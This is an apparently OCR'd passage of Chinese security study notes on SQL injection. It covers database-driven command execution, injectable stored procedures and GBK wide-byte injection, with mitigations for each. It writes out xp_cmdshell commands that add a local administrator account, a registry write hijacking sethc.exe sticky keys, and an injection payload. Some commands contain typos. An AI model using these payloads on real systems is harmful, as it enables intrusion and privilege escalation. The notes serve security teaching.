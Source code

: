 + mysql的secure_file_priv配置为空，或者其值正好是plugin目录
+ mysql进程要有写入plugin目录的权限
在拥有写权限的情况下，攻击者可以将需要执行的VBS脚本写入`%SystemRoot%\System32\Wbem\MOF\nullevt.mof`文件，系统将周期性地执行这个文件，从而实现命令执行。也可以写入系统开机自启动目录。
PostgreSQL同样支持类似UDF来执行任意代码
SQL Server中，可以直接使用存储过程过xp_cmdshell来执行系统命令
在Oracle数据库中，如果服务器同时还有Java环境，那么也可能造成命令执行。Oracle支持使用Java来编写存储过程 ，利用该特性，攻击者可以执行Java代码，从而实现命令执行。
在SUS.DBMS_EXPORT_EXTESION扩展包中，GET_DOMAIN_INDEX_TABLES函数可注入Java代码，受影响的Oracle版本比较老。
一般来说，在数据库中要执行系统命令，必须具有较高的权限。开发者在建立数据库账户时应遵循"最小权限原则"，尽量避免给Web应用授予数据库管理员权限。
### 攻击存储过程
存储过程为数据库提供了强大的功能，它与UDF很像，但必须使用CALL或者EXECUTE来执行。MS SQL Server和Oracle中都有大量内置的存储过程。在注入攻击中，存储过程为攻击者提供了很大便利。
MS SQL Server中的存储过程xp_cmdshell经常被黑客用来执行系统命令：
`EXEC master.dbo.xp_cmdshell 'cmd'.exe dir c:'
EXEC master.dbo.xp_cmdshell 'ping'`
在 SQL Server 2000中，xp_cmdshell默认是开启的，在2005及以后版本默认关闭。如果当前数据库用户拥有sysadmin权限，则可以使用sp_configure重新开启xp_cmdshell：
```
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC spconfigure 'xp_cmdshell',1
RECONFIGURE
```
使用xp_cmdshell执行系统命令：
```
EXEC master..xp_cmdshell 'net user testuser passw0rd /add'
ExEC master..xp_cmdshell 'net localgroup administrators testuser add'
```
除了 xp_cmdshell外，还有一些存储过程对攻击过程也是有帮助的，比如，xp_regwrite可以写注册表：
```
EXEC master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windwos NT\CurrentVersion\Image FileExecution Options\sethc.exe','debugger','reg_sz','c:\windows\system32\taskmgr.exe'
```
上述操作替换了Windows黏滞键，实现了提权。
除了被利用来直接实施攻击，存储过程本身也可能存在注入漏洞。PL/SQL的例子：
```
procedure get_item(
    itm_cv IN OUT ItmCurTyp,
    usr in varchar2,
    itm in varchar2)
is
    open itm_cv for 'SELECT * FROM items WHERE'||'owner= '''||usr||'AND itemname='''||itm||'''';
end get_item;
```
在这个存储过程中，变量usr和itm都是由外部传入的且未经过任何处理，它们将直接造成SQL注入漏洞。在Oracle中，由于内置的存储过程非常多，很多存储过程都可能存在SQL注入漏洞，需特别注意。
### 编码问题(宽字节注入)
有时候，不同的字符编码可能导致安全问题。在应用中，，开发者为了安全，经常会使用转义字符`\`来转义这些字符。如果web应用层和数据库层使用了不同的字符集，可能会产生一些意想不到的漏洞。如果msyql使用的是GBK编码，会将0xbf5c理解成一个字符。
进入数据库之前，在web开发语言中如果没有考虑双字节字符的问题，双字节字符会被认为是两个字符。如在PHP中使用addslashes()函数，或开启magic_quotes_gpc时，会在特殊字符前增加一个转义字符"\"。addslashes仅会简单地转义四个字符
如PHP代码中设置数据库连接的字符集为GBK，并使用addslashes()函数转义name参数：
```
$conn->set_charset('GBK');
$name=addslashes($_GET['name']);
$sql="SELECT * FROM tb1 WHERE name='$name';";
$result= $conn->query($sql);
```
攻击者输入：
`name=%bf527 or 1=1--%20`
经过addslashes()函数，转义后0xbf27就会 变成0xbf5c27(\的ASCII编码为0x5c ),0xbf5c在GBK中是一个汉字。
语句就会变成：
`SELECT * FROM tb1 WHERE name='缞' or 1=1-- `
要解决该问题需要统一Web应用和数据库所使用的字符集，避免各个层级对字符的理解存在差异。例如，将addslashes()函数替换成real_escape_string函数，就能避免该问题，该函数会根据数据库所使用的字符集进行正确的转义。